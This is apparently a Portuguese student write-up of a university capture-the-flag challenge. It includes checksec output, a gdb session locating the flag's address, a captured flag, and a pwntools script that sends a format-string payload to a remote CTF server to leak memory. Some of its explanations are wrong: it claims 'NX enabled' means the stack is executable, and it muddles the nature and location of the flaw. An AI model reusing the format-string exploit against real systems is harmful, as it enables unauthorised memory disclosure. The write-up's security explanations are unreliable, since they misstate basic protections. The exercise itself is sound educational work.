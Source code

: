 # CTF 6

## Desafio 1

### checksec

```
[11/24/21]seed@VM:~/CTF/6$ checksec --file=program --extended
  RELRO : Partial RELRO
  STACK CANARY: Canary found
  NX: NX enabled
  PIE: No PIE
  Clang CFI: No Clang CFI found
  SafeStack: No SafeStack found
  RPATH: No RPATH
  RUNPATH	: No RUNPATH
  Symbols: 81 Symbols
  FORTIFY: Yes
  Fortified: 0
  Fortifiable:  2
  FILE: program
```

Podemos concluir que:
+ há um *canary* a proteger o *return address* (Stack)
+ a *stack* tem permissão de execução (NX)
+ as posições do binário não estão randomizadas (PIE)
+ os *return addresses* não estão protegidos numa stack em separado (SafeStack)

### Gdb

```
[11/24/21]seed@VM:~/CTF/6$ gdb program
Reading symbols from program...
(...)
gdb-peda$ b load_flag
Breakpoint 1 at 0x8049256: file main.c, line 8.
gdb-peda$ run
(...)
Breakpoint 1, load_flag () at main.c:8
8	void load_flag(){
gdb-peda$ p &flag
$1 = (char (*)[40]) 0x804c060 <flag>
```

O endereço de flag é 0x804c060

### Qual é a linha do código onde a vulnerabilidade se encontra?

```c
char buffer[32];
(...)
scanf("%32s", &buffer);
```

### O que é que a vulnerabilidade permite fazer?

Permite alterar o endereço para onde buffer aponta.

### Qual é a funcionalidade que te permite obter a flag?

Alterar o endereço para o mesmo que flag?

FLAG   
 <pre>flag{5fc247063bea425edc863667ac9d09bc}</pre>

### Python

```py
#!/usr/bin/env python3
from pwn import *
 
LOCAL = False
 
if LOCAL:
    #p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    local = './program'
    url = 'ctf-fsi.fe.up.pt'
    port = 4000
    p = process(local)
 
else:    
    p = remote("ctf-fsi.fe.up.pt", 4004)
 
p.recvuntil(b":")

content = bytearray(0x00 for i in range(32))
val = 0x0804c060
content[0:4] = (val).to_bytes(4, byteorder='little')
content[4:6] = ("%s").encode('latin-1')

p.sendline(content)
p.interactive()
p.recvuntil(b"got:")
p.sendline(b"oi")
p.interactive()
```
